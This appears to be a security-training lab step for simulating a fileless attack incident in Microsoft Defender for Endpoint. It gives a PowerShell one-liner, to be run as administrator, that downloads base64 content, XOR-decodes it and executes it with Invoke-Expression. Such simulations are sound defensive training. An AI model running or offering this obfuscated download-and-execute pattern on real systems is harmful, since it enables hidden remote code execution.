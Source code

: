 ## Fileless Attack Incident

### Task 1 - Generating the incident

1. Switch to the client machine
2. Run Windows Powershell as administrator
3. Copy and paste the following text into the PowerShell window and press Enter to run
```console
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
4. Wait for the script to finish running. Notepad should open which you can close manually
![PowerShell Prompt](..//Images/PScode.png)

Hello